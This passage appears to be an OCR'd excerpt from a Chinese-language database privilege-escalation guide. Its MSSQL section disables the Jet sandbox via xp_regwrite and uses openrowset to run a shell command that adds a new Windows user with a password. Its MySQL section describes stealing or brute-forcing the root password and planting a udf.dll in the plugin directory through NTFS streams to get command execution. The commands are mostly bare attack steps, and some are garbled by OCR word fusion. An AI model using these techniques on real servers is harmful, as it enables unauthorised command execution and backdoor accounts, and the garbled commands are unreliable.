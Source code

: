 execsp_configure 'Ad Hoc Distributed Queries',1;reconfigure;

-- 关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。

```
execmaster..xp_regwrite'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
```

-- 查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。

```
execmaster.dbo.xp_regread'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode'
```

-- 执行系统命令

```
select * fromopenrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','selectshell("net user test3 qwea123. /add")')
```

### **3.2 Mysql**

##### UDF 提权

udf= ‘user definedfunction’，即‘用户自定义函数’。是通过添加新函数，对 MYSQL 的功能进行扩充，其提权原理，利用了 root 高权限，创建带有调用 cmd 的函数的 udf.dll 动态链接库，可以通过以下几种方法得到 root 密码：

读取网站数据库配置文件

读取数据库存储或备份文件

暴力破解，root 默认不支持外连就要上传脚本到服务器爆破

使用 UDF 提权先要知道 MySql 对应的版本：selectversion()

Mysql< 5.1 导出目录 c:/windows 或 system32

Mysql=> 5.1 导出目录 /lib/plugin/

目录可以手工创建，也可以使用 NTFS 流创建:select‘x’ into dumpfile ‘数据库目录 /lib/plugin::INDEX_ALLLOCATION‘

查看数据库安装目录:Select@@basedir

查看 MySQL 版本:selectversion();

查看 MySQL 的插件目录:select@@plugin_dir;

创建 lib 目录:select'it is dll' into dumpfile 'c:\program files\mysql\mysql server5.1\lib::$INDEX_ALLOCATION';

创建 plugin 目录:

```
select'it is dll' into dumpfile 'c:\program files\mysql\mysql server5.1\plugin::$INDEX_ALLOCATION';
```

创建 udf.dll

```
select unhex('hex_of_udf.dll') into dumpfile "c:\programfiles\mysql\mysql server 5.1\plugin\udf.dll";
```
